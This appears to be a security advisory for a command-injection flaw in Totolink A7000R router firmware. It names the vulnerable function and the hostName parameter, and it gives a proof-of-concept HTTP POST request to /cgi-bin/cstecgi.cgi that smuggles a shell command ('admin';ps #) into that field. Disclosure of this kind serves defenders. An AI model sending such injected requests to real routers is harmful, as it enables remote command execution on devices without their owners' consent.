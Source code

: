 # Totolink A7000R Has an command injection vulnerability

## 1. Affected version:

Totolink A7000R V9.1.0u.6115_B20201022(Transition version)

## 2. Firmware download address

[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html)
![image](https://user-images.githubusercontent.com/73413552/221508389-e59a233e-a4fb-4a77-9e58-62f8b0d1df0d.png)

## 3. Vulnerability details

The function "sub_423970" contains a Command Injection Caused by Format String Vulnerabilities. 
In the function, Attackers can control v48 by controlling the hostName parameter, and then control the parameters of the doSystem function。
As a result, by requesting the page, an attacker can easily execute a Dos attack or RCE with carefully crafted overflow data.


![image](https://user-images.githubusercontent.com/73413552/221512750-00e0c3be-7b6c-4045-bfa8-c99b2cccf8be.png)



## 4. Recurring vulnerabilities and POC

Due to China legal and policy reasons, we are unable to provide the exploit for tis vulnerability at this time.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 109
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/index.html?time=1677576032102
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1677576031:2
Connection: close

{
"opmode":"br",
"proto":"2",
"switchOpMode":"1",
"topicurl":"setOpModeCfg",
"hostName":"admin';ps #"
}
```
![image](https://user-images.githubusercontent.com/73413552/221814054-a1b96ceb-60e0-417c-be6a-6b85ef0b2bc1.png)



## 5. Author

Mark @KRLab
